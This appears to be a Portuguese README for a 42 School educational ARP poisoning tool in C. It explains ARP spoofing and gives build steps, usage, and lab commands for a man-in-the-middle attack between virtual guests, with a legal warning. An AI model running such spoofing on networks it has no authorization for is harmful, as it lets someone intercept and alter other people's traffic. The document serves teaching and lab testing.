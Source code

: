 # 42 Malcolm

![OS](https://img.shields.io/badge/OS-Linux-blue.svg)
![Language](https://img.shields.io/badge/Language-C-orange.svg)
![Status](https://img.shields.io/badge/Status-Pending_Evaluation-darkgrey.svg?logo=42)
[![Tests](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml/badge.svg)](https://github.com/vinicius507/ft_malcolm/actions/workflows/tests.yml)

[![en](https://img.shields.io/badge/Lang-en-red.svg)](./README.md)
[![pt-br](https://img.shields.io/badge/Lang-pt--br-green.svg)](./README.pt-br.md)

Uma ferramenta de ARP Poisoning escrita em C usando o padrão 99.

> [!WARNING]
>
> Esta aplicação realiza ARP spoofing, uma técnica de ataque que pode
> interromper a comunicação em uma rede. Utilizar ARP spoofing sem permissão é
> uma violação de políticas de segurança e pode ser ilegal. É crucial usar esta
> ferramenta apenas em ambientes controlados, como uma rede de laboratório
> pessoal, para fins educativos ou de teste.
>
> Esta ferramenta foi criada como parte do currículo de Segurança da École 42 e
> destina-se apenas a fins educativos. O autor não apoia nem encoraja o uso
> desta ferramenta para fins maliciosos.

## O que é ARP?

O Address Resolution Protocol é um protocolo da Camada 2 que mapeia endereços
de hardware, como um endereço MAC, para um endereço de protocolo da Camada 3,
como um endereço IPv4.

## Como funciona o ARP poisoning?

O protocolo ARP é um protocolo _stateless_, o que significa que os hosts da
rede armazenarão em cache automaticamente qualquer resposta ARP que receberem,
independentemente de ter sido solicitada ou não.

O ARP poisoning funciona enviando respostas ARP não solicitadas a um host,
associando um endereço de protocolo ao endereço de hardware do atacante.

## Uso

### Compilando a partir do código-fonte

**Requisitos:**

- Clang 12
- GNU Make
- [Minha biblioteca Libft](https://github.com/vinicius507/libft)

**Instruções:**

1. Clone o repositório do 42 Malcolm:

   ```bash
   git clone https://github.com/vinicius507/ft_malcolm.git

   ```

2. Clone o repositório da Libft:

   ```bash
   git clone https://github.com/vinicius507/libft.git
   ```

3. Navegue até o diretório do projeto:

   ```bash
   cd ft_malcolm
   ```

4. Compile a ferramenta:

   ```bash
   make LIBFT_DIR=../libft/libft -C ./ft_malcolm # Ajuste o caminho, se necessário
   ```

### Compilando com Nix

Se preferir usar Nix, você pode compilar a aplicação navegando até o diretório
do projeto e usando o seguinte comando:

```bash
nix build .#
```

Isso assume que você tem um ambiente Nix válido configurado. O processo de
compilação lidará automaticamente com o download e _linkagem_ das dependências.

### Executando a Aplicação

**Antes de executar:**

- Certifique-se de ter **permissão explícita** para executar esta ferramenta na
  rede alvo.
- Esteja ciente do impacto potencial do ARP poisoning na rede.

**Executando a ferramenta:**

> [!NOTE]
>
> É necessário ter privilégios de root para executar a aplicação.

```bash
./ft_malcolm [OPÇÃO...] IP_FONTE MAC_FONTE IP_ALVO MAC_ALVO
```

**Argumentos Posicionais:**

- `IP_FONTE`: O endereço IP a ser falsificado como fonte.
- `MAC_FONTE`: O endereço MAC a ser falsificado como fonte.
- `IP_ALVO`: O endereço IP do dispositivo alvo.
- `MAC_ALVO`: O endereço MAC do dispositivo alvo.

**Argumentos Opcionais:**

- `-g, --gratuitous`: Enviar um pacote ARP gratuito para broadcast
  (`FF:FF:FF:FF:FF:FF`).
- `-i, --interface`: A interface de rede a ser usada, se não especificada, a
  primeira interface disponível será utilizada.
- `-v, --verbose`: Ativar saída detalhada para informações do pacote.

**Exemplo:**

```bash
./ft_malcolm 192.168.122.67 AA:BB:CC:DD:EE:FF 192.168.122.206 00:11:22:33:44:55
```

## Ambiente de Testes

A aplicação foi testada em um ambiente virtualizado usando QEMU/KVM com a
seguinte configuração:

- **Sistema Operacional do Host (Atacante):** NixOS 24.11
- **Sistema Operacional do Guest 1:** Debian 12
- **Sistema Operacional do Guest 2:** Debian 12
- **Rede:** Rede em modo bridge com DHCP

Para que o ARP poisoning funcione, a rede em modo bridge deve ser configurada
para não filtrar pacotes usando o firewall do sistema host. Isso pode ser feito
executando os seguintes comandos como root no host:

```bash
ip link set dev BRIDGE type bridge nf_call_arptables 0
ip link set dev BRIDGE type bridge nf_call_iptables 0
```

Onde `BRIDGE` é o nome da interface de rede em modo bridge.

Se você quiser encaminhar pacotes do host entre os guests e a rede, pode
habilitar o encaminhamento de IPs executando:

```bash
sysctl -w net.ipv4.ip_forward=1
```

Para realizar o ataque, você pode executar a aplicação no host, falsificando o
endereço IP e MAC do guest como a fonte e o endereço IP e MAC do roteador como
o alvo.

Primeiro, envie um pacote ARP gratuito para interceptar todo o tráfego indo para
`GUEST_1`:

```bash
./ft_malcolm GUEST_1_IP ATTACKER_MAC --interface=BRIDGE --gratuitous
```

Depois, ouça os pacotes ARP de `GUEST_1` solicitando o endereço MAC de
`GUEST_2`:

```bash
./ft_malcolm GUEST_2_IP ATTACKER_MAC GUEST_1_IP GUEST_1_MAC --interface=BRIDGE
```

Verificar o cache ARP em `GUEST_1` deve mostrar o endereço MAC de `GUEST_2`
como o endereço MAC do atacante.

```bash
$ cat /proc/net/arp
Endereço IP      Tipo HW     Flags       Endereço HW          Máscara  Dispositivo
ATTACKER_IP      0x1         0x2         ATTACKER_MAC         *        BRIDGE
GUEST_2_IP       0x1         0x2         ATTACKER_MAC         *        BRIDGE
```

Isso irá interceptar todo o tráfego de `GUEST_1` para `GUEST_2`, permitindo que
você inspecione e modifique os pacotes conforme necessário.

| ![Screenshot do Wireshark mostrando um reply HTTP interceptado](./assets/wireshark.png) |
| :-------------------------------------------------------------------------------------: |
|                    _Wireshark mostrando um reply HTTP interceptado_                     |
